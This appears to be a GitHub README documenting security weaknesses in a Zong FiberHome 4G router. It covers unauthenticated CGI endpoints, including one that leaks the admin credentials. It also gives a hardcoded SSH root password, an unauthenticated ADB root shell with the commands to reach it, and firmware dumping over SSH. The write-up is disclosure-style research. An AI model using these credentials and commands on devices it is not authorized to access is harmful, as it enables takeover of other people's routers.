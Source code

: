 
# Zong FiberHome 4G Device

## Endpoints

Base URL: `/xml_action.cgi?method=get&module=duster&file=[name]`
known file names are:
 - admin
 - app_fun_support_list
 - battery_charge
 - custom_fw
 - detailed_log
 - dns
 - download_local_upgrade
 - lan
 - lock_cell_clear
 - message
 - message_drafts
 - message_outbox
 - message_set
 - message_state
 - message_state
 - net_advace_set
 - ntp_server
 - pin_puk
 - reset
 - restore_defaults
 - shutdown
 - status1
 - time_setting
 - traffic_excess_set
 - uapxb_wlan_basic_settings
 - uapxb_wlan_security_settings
 - upgrade_info
 - ussd_business
 - wan
 - wan_choose_net
 - wan_ip
 - wlan_auto_setting

 ## Vulnerabilities and Exploits
 Although the device use a wierd authentication method, it is nothing more than a gimmick used 
 by the UI code to give an illusion of authentication.
 All the endpoints are accessible directly without authentication and the best part of it all is you can
 use the [`admin`](http://192.168.8.1/xml_action.cgi?method=get&module=duster&file=admin) endpoint to get the username and password for the router.

The output of the `admin` endpoint is something like
```
<?xml version="1.0" encoding="US-ASCII"?>
<RGW>
	<management>
		<router_username>admin</router_username>
		<router_password>admin</router_password>
		<web_wlan_enable/>
		<httpd_port/>
		<syslogd_enable/>
		<web_wan_enable/>
		<syslogd_rem_ip/>
		<turbo_mode/>
        <customer/>
	</management>
</RGW>
```

The vulerability explained above is [well know and quite old](https://github.com/OsamaMahmood/Zong-router-exploit) but wait, There's more! to my knowledge(not sure though) the `Fiber Home` version of the `Zong` devices are unlocked by default but if yours is not, you can use a simple trick to get super user access and unlock
the device direcltly from the `Admin Panel` all you have to do is login to your router and change the default **username** from `admin` to `root` and voila you can see a new tab named `Advance` in `Settings` which provides options to unlock the device, As shown below

![Advance Settings](/zong_adv_settings.PNG?raw=true "Advance Settings")

## Analysis
It gets more interesting once you do a portscan of the device. The portscan shows the following ports to be open
 - 22 - SSH
 - 53 - DNS
 - 80 - HTTP (Admin Panel)
 - 3020 - Unknown
 - 3021 - Unknown
 - 5555 - ADB

### Port 22
You can ssh into the device as `root` using password `oelinux123`

### Port 53 and 80
These ports are standard `DNS` and `HTTP` ports

### Port 3020
Port 3020 is interesting once you connect to it it immediatly send the banner `ms_version:1` and then appears to send/receive nothing but if you keep connected it starts sending packets with `JSON` payloads "periodically" which appears to be 4-byte length prefixed, see the sample payloads below

```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength": 2
}
```
```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength_v1": [
		{
			"cdma_dbm": 0,
			"evdo_dbm": -125,
			"gsm_signal_strength": 0,
			"lte_rsrp": -112,
			"operator_type": 2,
			"tds_signal_strength": 0,
			"wcdma_signal_strength": 0
		}
	]
}
```

### Port 3021
This port lets you connect to it and keeps the connection open as long as you don't send anything but as soon as you send something it immediately disconnects, possibly expects somekind of pattern IMO(these kinds of ports were found on other routers too)

### Port 5555
This port runs an unauthenticated `adb daemon` so you can easily connect to it using `adb` and get shell access as follow
```
adb connect 192.168.8.1:5555
adb shell
```
you will get access as root user so you can pretty much do anything you want.

### Dumping Image
You can list the flash partitions using:
```
cat /proc/mtd

Output:

dev:    size   erasesize  name
mtd0: 00140000 00020000 "sbl"
mtd1: 00140000 00020000 "mibib"
mtd2: 00b00000 00020000 "efs2"
mtd3: 00360000 00020000 "sdi"
mtd4: 00360000 00020000 "tz"
mtd5: 000c0000 00020000 "mba"
mtd6: 00360000 00020000 "rpm"
mtd7: 031e0000 00020000 "qdsp"
mtd8: 000e0000 00020000 "appsbl"
mtd9: 00800000 00020000 "apps"
mtd10: 00040000 00020000 "scrub"
mtd11: 04a80000 00020000 "cache"
mtd12: 00160000 00020000 "misc"
mtd13: 00560000 00020000 "cdrom"
mtd14: 002e0000 00020000 "logo"
mtd15: 00800000 00020000 "recovery"
mtd16: 00100000 00020000 "fota"
mtd17: 01080000 00020000 "recoveryfs"
mtd18: 01080000 00020000 "system"
mtd19: 12e80000 00020000 "userdata"
```
you can just `cat` the device and pipe the data to a file e.g. `ssh root@192.168.8.1 "cat /dev/mtd18" > system.img` to get the system image

### Filesystem
Its just a linux filesystem, fun stuff can be found in `/usr/mifi/`. Some of the configurations are also stored in `sqlite 3` databases and can be found in `/usr/data/`

### Credits
Thanks to [IMExperts](https://github.com/IMExperts) for providing the `ssh` password as well as mentioning that port `5555` is running `adb`

